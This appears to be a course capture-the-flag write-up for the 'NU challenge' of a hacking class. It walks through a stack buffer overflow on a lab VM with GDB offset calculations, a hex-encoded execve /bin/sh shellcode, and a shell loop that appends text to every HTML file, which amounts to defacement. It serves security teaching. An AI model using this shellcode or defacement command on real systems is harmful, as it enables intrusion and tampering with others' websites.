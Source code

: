 # NU CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./hack_terminal` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.


## Explanations
The vulnerability used is a buffer overflow. When the VM asks for a name, the user simply gives it a too long name to the point where the return address at the end of function `parse` is overwritten. This return address is then modified to point toward the beginning of the buffer (that stores the user's input) and execute malicious instructions in it. Here, the malicious instructions are launching a shell and modify all HTML files as done in the Mu challenge.

The shellcode used is `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` (ref [here](https://shell-storm.org/shellcode/files/shellcode-806.php). The rest of the memory is filled by the no-operation instruction `\x90` to reach the return address.

## GDB Tests

### Proof of overwrite

Let's use GDB (a debugger tool) to better understand what's happening in the stack memory. We'll be using the c program _test_gdb.c_ which is a simplified version of the source code of the application. Once it is compiled with the command `gcc -m32 -fno-stack-protector -z execstack test_gdb.c -o test_gdb`, we can run gdb using `gdb test_gdb`.

First of all, let's try to run the program and feed it a too long name with the command `r < attack.txt` (_attack.txt_ contains a 200-long string of letters 'A' and can be generated with Python `python3 -c 'print("A"*200)' > attack.txt`). Gdb replies a segmentation fault :
```
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
`0x41414141` is supposed to be the return pointer and is now not recognised. Moreover, 41 turns out to be the hexadecimal code for the letter 'A' which isn't a coincidence. Indeed, the return pointer was overwritten by the user's input as the latter entered a too long name.

### Exploitation

Let's dig deeper and try to count the exact number of letters 'A' needed to overwrite the return pointer with the sequence one wants. This count is simply the distance between the return pointer and _greeting_text_ + 12 (the 12 first characters are already written : _"Hello, dear "_). To find the return pointer's position in the stack, I put a break at the beginning (at the `push` level) of the function `parse` with the command `b *0x########` (in my case `b *0x56556231` and can be access when `parse` is disassembled  : `disas parse`). When running the program, it stops at this break and at this moment the stack pointer is the return pointer. So the return pointer's position can be access with :
```
gdb-peda$ x/xw $sp
0xffffcf1c:	  0x565562d6
```
Now, all that remains is to find _greeting_text_'s position in the memory. The function `strcat` takes two arguments one of which is our interest variable. I put another break at the level of `strcat`, run the program until this second break and display the two arguments of `strcat` (`dumpargs` works only with GDB Peda) :
```
gdb-peda$ dumpargs
Guessed arguments:
arg[0]: 0xffffce90 ("Hello, dear ")
arg[1]: 0xffffcd90 ('A' <repeats 200 times>...)
```
The distance between the return pointer and _greeting_text_ can be calculated as such :
```
gdb-peda$ p/d 0xffffcf1c - 0xffffce90
$2 = 140
```

Let's verify this count by generating a new _attack.txt_ : `python3 -c 'print("A"*128 + "BBAB") ' > attack.txt`. Go back to gdb and run the program `r < attack.txt` :
```
Stopped reason: SIGSEGV
0x42414242 in ?? ()
```
We still get a segmentation fault but this time, the return pointer has been successfully modified to `42414242` which corresponds to the hexadecimal code of "BBAB".

### Structure of the stack memory
```
| ############## BUFFER ############### | ###### GREETING_TEXT ###### | # SOMETHING # | # RETURN ADDRESS # |
|                 256                   |             128             |       12      |         6          |
```
